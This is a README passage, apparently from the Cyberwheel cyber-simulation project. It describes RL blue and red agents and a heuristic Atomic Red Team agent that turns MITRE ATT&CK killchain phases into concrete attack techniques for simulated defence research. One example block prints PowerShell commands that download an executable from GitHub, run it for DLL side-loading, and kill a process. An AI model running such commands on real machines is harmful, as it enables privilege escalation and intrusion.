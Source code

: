 ### RL Blue Agent Design

The RL blue agent is largely focused on deploying Decoys to slow and/or stop red agent attacks throughout the network. The blue agent's actions and logic be configured and defined in a YAML file, allowing for greater modularity. Different configurations of blue agents are defined in `cyberwheel/data/configs/blue_agent/`. Its observation space is defined by the entire network, and alerts that are flagged by detectors it has set up.

### RL Red Agent Design

The RL red agent is built around the Atomic Red Team techniques, with goals that are influenced by various configurations that can be configured. Different configurations can be found in `cyberwheel/data/configs/red_agent/`. Its observation space is defined by its (initially limited) view of the network as it explores. As it performs certain correct actions, this view can expand up to the size of the network.

### Atomic Red Team Agent Design

The Atomic Red Team (ART) agent is a heuristic agent that has a set of defined rules and strategies that it can use to traverse a network, although its behavior to dictate which Hosts it chooses to target is modular. It's actions are mapped from MITRE ATT&CK Killchain Phases (Discovery, Lateral Movement, Privilege Escalation, Impact) to Atomic Red Team (ART) techniques. We've defined these techniques with a set of attributes mapped from existing cyber attack data. This allows our ART Agent to run a higher level killchain phase (i.e. discovery) on a host, and the environment will cross-reference the target host's attributes with ART Technique attributes. Techniques are valid for the attack by checking:
  - [x] Technique includes the target host's OS in its supported platforms
  - [x] Technique includes the killchain phase in its supported killchain phases
  - [x] Technique can exploit any CVE that is present on the target host

If all of these conditions are met, the agent can successfully run the killchain attack on the host. These ART Techniques include Atomic Tests, which give tangible commands to run in order to execute the given attack. With this methodology, the simulator is able to transform a general killchain phase into a valid set of commands that could be run in
the real world.

<ins> Example <ins>

1. ART Agent runs `Privilege Escalation` on Host.
2. ART Agent runs OS, Killchain Phase, and CVE checks.
3. ART Agent uses ART Technique: DLL Side-Loading Technique
4. ART Agent chooses a random Atomic Test
5. Atomic Test adds the following commands to Host metadata:
```sh
New-Item -Type Directory (split-path "${gup_executable}") -ErrorAction ignore | Out-Null​
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1574.002/bin/GUP.exe?raw=true" -OutFile "${gup_executable}"
if (Test-Path "${gup_executable}") {exit 0} else {exit 1}​
"${gup_executable}”​
taskkill /F /IM ${process_name} >nul 2>&1​
```

### ART Campaign Design


[issues-shield]: https://img.shields.io/github/issues/ORNL/cyberwheel.svg?style=for-the-badge
[issues-url]: https://github.com/ORNL/cyberwheel/issues
[license-shield]: https://img.shields.io/github/license/ORNL/cyberwheel.svg?style=for-the-badge
[license-url]: https://github.com/ORNL/cyberwheel/blob/release/LICENSE
[plotly-dash]: https://img.shields.io/badge/plotly-dash-000000?style=for-the-badge&logo=plotly&logoColor=white
[plotly-dash-url]: https://dash.plotly.com/
[python]: https://img.shields.io/badge/python-000000?style=for-the-badge&logo=python&logoColor=white
[python-url]: https://www.python.org/
[wandb]: https://img.shields.io/badge/W&B-000000?style=for-the-badge&logo=weightsandbiases&logoColor=white
[wandb-url]: https://wandb.ai/site
[gym]: https://img.shields.io/badge/gym-000000?style=for-the-badge&logo=openaigym&logoColor=white
[gym-url]: https://github.com/Farama-Foundation/Gymnasium
[poetry]: https://img.shields.io/badge/poetry-000000?style=for-the-badge&logo=poetry&logoColor=white
[poetry-url]: https://python-poetry.org/
